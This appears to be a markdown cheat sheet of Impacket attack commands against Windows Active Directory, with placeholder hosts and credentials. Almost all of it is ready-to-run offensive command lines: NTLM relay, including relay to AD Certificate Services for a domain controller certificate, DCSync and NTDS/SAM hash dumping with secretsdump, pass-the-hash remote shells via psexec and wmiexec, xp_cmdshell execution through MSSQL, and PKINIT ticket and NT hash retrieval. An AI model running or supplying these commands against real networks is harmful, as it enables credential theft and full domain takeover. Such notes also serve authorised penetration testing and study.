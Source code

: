 ## ntlmrelayx.py
```zsh
$ ntlmrelayx.py -smb2support -t smb://XXX.XXX.XXX.XXX -debug
$ ntlmrelayx.py -debug -smb2support --target http://TestCa.HOGE.COM/certsrv/certfnsh.asp --adcs --template DomainController
```
## smbserver.py
```zsh
$ smbserver.py -smb2support -username TestUser -password TestPassword TestRemoteAppearFolder TestLocalDirectory
```
## secretsdump.py
```zsh
$ secretsdump.py -just-dc HOGE.com/TestUser@XXX.XXX.XXX.XXX
$ secretsdump.py -just-dc-user TestUser HOGE.com/TestUser:"TestPassword\!"@XXX.XXX.XXX.XXX
$ secretsdump.py -outputfile hoge-com_hashes -just-dc HOGE.com/TestUser@XXX.XXX.XXX.XXX
$ secretsdump.py -just-dc-user HOGE/administrator "Test-DC1$"@XXX.XXX.XXX.XXX -hashes TestNtHash:TestLmHash
$ secretsdump.py -sam sam.hive -system system.hive LOCAL
$ ls hoge-com_hashes*
$ secretsdump.py -ntds CopiedNtds.dit -system system.hive LOCAL
```
## psexec.py
tag: shell
```zsh
$ psexec.py HOGE.com/piyo:'TestPassword'@XXX.XXX.XXX.XXX
$ psexec.py -hashes TestLmHash:TestNtHash TestUser@XXX.XXX.XXX.XXX
```
## wmiexec.py
tag:shell
```zsh
$ wmiexec.py hoge.local/TestUser:'TestPassword'@XXX.XXX.XXX.XXX
# pth
$ wmiexec.py -hashes :TestNtHash Administrator@XXX.XXX.XXX.XXX
```
## mssqlclient.py 
tag: shell
- [xp_cmdshell](https://learn.microsoft.com/en-us/sql/relational-databases/system-stored-procedures/xp-cmdshell-transact-sql?view=sql-server-ver15)
```zsh
$ mssqlclient.py HOGE/TestUser@XXX.XXX.XXX.XXX -windows-auth
SQL> help
SQL> enable_xp_cmdshell
SQL> xp_cmdshell whoami /priv
```
## gettgtpkinit.py 
```zsh
$ gettgtpkinit.py HOGE.COM/TestADHost\$ -pfx-base64 TestBase64EncodedText TestDC.ccache
$ export KRB5CCNAME=TestDC.ccache
$ secretsdump.py -just-dc-user HOGE/administrator -k -no-pass "TestADHost$"@TestADHost.HOGE.COM
```
## getnthash.py
```zsh
$ getnthash.py -key TestNtHash HOGE.COM/Test-AD-Host$
```
